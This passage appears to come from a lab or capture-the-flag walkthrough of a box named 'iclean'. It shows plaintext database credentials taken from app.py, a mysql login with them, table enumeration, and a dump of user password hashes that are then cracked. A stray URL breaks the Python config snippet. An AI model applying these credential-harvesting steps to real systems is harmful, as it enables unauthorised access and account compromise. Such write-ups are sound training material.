 ```python
db_config = {http://localhost:1313/
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

This app.py contains the database configuration that has user, password and database name.

Using mysql 
```mysql
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean

```
![alt text](/iclean/18.png)

We see that there are 3 databases.
```mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
```

We choose capiclean as it looks like the one a user created.
```mysql
use capiclean
```

When we check the tables, users table looks like the most interersting one.
```mysql
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
```

We see that there are two password. But when we look at it, it looks like it is stored in hash
```mysql
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela |    | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```
We crack the hash and now we got the password.
![alt text](/iclean/26.png)

---